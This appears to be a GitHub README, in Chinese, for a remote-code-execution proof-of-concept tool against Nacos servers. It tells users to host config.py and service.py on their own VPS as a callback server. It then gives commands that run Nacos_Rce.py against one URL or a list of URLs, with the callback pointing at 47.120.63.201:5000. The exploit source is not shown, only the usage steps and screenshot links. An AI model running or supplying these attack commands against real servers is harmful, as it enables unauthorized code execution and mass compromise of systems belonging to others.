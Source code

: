 # Nacos_Rce
网传nacos_rce漏洞poc



![image](https://github.com/user-attachments/assets/cf7e3ac3-bd47-462c-accc-4fc21b8a731f)


![image](https://github.com/user-attachments/assets/66c7cba3-489a-4bf4-876d-f2e375a82b44)

</br>

# 使用方法
---

### 1. 将config.py和service.py放在自己的vps上并运行

```python service.py```

![image](https://github.com/user-attachments/assets/e7e8b68c-7147-4ca3-a5bf-07b89620575f)

![image](https://github.com/user-attachments/assets/a3feb618-8255-4b4a-9b0a-ae575e7bceb9)


### 2. 单url验证
```python .\Nacos_Rce.py -t 47.120.63.201 -p 5000 -u http://xxx.xxx.xxx```
![image](https://github.com/user-attachments/assets/17683bc9-5851-4222-9df7-6b71a8ddd591)



### 3. 多url验证
```python .\Nacos_Rce.py -t 47.120.63.201 -p 5000 -f ./url.txt```
![image](https://github.com/user-attachments/assets/7eecdf9e-7c74-4115-afbc-5af9362f4db9)






